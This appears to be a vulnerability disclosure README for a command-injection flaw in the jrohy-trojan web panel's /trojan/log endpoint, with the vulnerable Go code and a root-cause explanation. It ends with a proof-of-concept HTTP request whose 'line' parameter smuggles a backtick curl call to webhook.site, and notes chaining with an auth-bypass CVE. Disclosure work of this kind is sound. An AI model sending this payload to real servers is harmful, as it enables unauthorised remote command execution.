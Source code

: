 # Jrohy-trojan-RCE-POC

Vulnerability Type: Command Injection (Remote Code Execution - RCE)

Affected Component: jrohy-trojan Web Interface /trojan/log Endpoint

Impact: Remote attackers can execute arbitrary commands on the server with the privileges of the web service.

web/web.go Line 102:
```go
router.GET("/trojan/log", func(c *gin.Context) {
		controller.Log(c)
	})
```
trojan/web/controller/trojan.go Line 72:
```go
func Log(c *gin.Context) {
	var (
		wsConn *util.WsConnection
		err    error
	)
	if wsConn, err = util.InitWebsocket(c.Writer, c.Request); err != nil {
		fmt.Println(err)
		return
	}
	defer wsConn.WsClose()
	param := c.DefaultQuery("line", "300")
	if !util.IsInteger(param) {
		fmt.Println("invalid param: " + param)
		return
	}
	if param == "-1" {
		param = "--no-tail"
	} else {
		param = "-n " + param
	}
	result, err := util.LogChan("trojan", param, wsConn.CloseChan) //Here is the trigger
	if err != nil {
		fmt.Println(err)
		return
	}
	for line := range result {
		if err := wsConn.WsWrite(ws.TextMessage, []byte(line+"\n")); err != nil {
			fmt.Println("can't send: ", line)
			break
		}
	}
}
```

trojan/util/linux.go Line 98:
```go
func LogChan(serviceName, param string, closeChan chan byte) (chan string, error) {
	cmd := exec.Command("bash", "-c", fmt.Sprintf("journalctl -f -u %s -o cat %s", serviceName, param))

	stdout, _ := cmd.StdoutPipe()

	if err := cmd.Start(); err != nil {
		fmt.Println("Error:The command is err: ", err.Error())
		return nil, err
	}
	ch := make(chan string, 100)
	stdoutScan := bufio.NewScanner(stdout)
	go func() {
		for stdoutScan.Scan() {
			select {
			case <-closeChan:
				stdout.Close()
				return
			default:
				ch <- stdoutScan.Text()
			}
		}
	}()
	return ch, nil
}
```
Root Cause:

The line parameter in the /trojan/log endpoint is directly concatenated into a shell command without proper sanitization:

```go
cmd := exec.Command("bash", "-c", fmt.Sprintf("journalctl -f -u %s -o cat %s", serviceName, param))
The param variable is derived from user input (c.DefaultQuery("line", "300")) and allows injection via backticks (`) or shell metacharacters (e.g., ;, &, |).
```

POC:
```HTTP
GET /trojan/log?line=1%60curl%20https://webhook.site/xxxxxx%60&token=eyJhbGciOiJIUzI1NiIsxxxxxx.xxx.xxxS2h70jlP0psVzY7DBNLAlOgg HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: key
Sec-WebSocket-Protocol: websocket
Connection: Upgrade
Upgrade: websocket

```

With the use of CVE-2024-55215, there is no authentication needed to exploit this vulnerability.
POC Details can be found in POC.py

